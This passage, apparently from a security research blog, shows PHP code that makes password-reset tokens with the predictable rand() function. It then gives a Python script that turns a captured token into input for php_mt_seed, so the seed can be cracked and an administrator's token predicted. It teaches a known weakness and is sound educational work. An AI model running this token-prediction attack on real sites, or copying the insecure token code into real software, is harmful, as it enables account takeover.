 ## Exploiting Scenario 1

Vulnerable code:

```
&lt;?php


function generate_random_string($length = 10)
{
    $characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $rnd_result = '';
    for ($i = 0; $i &lt; $length; $i++) {
        $rnd_result .= $characters[rand(0, strlen($characters) - 1)];
    }
    return $rnd_result;
}

// $rand = mt_rand();
// srand($rand);

echo "reset password for the first user : " . generate_random_string(32) . '&lt;br /&gt;';
echo "reset password for the second user :" .  generate_random_string(32) . '&lt;br /&gt;';
```

In the example, the function is generating a password reset for two users but in the same session (same initial state for the mt\_rand).

The PHP version of our target is latest version:

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/2-1024x500.png)

Figure 3 – PHP version info

Let’s attack the tokens we need to predict the second token (admin token as an example) using only one of the tokens that was generated (just a normal user token).

The following python script will convert the tokens into what the rand function really generated because the rand function is generating a number, not the strings itself:

```
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

with open("tokens.txt", "r") as file:
    tokens = file.readlines()

for token in tokens:
    token = token.strip()
    for c in token:
        print(" ",chars.find(c), chars.find(c),"0","61",end="")
```

The output of the script will be used with the php\_mt\_seed tool:

![](https://whiteknightlabs.com/wp-content/uploads/2024/06/2024-06-12_233252.png)
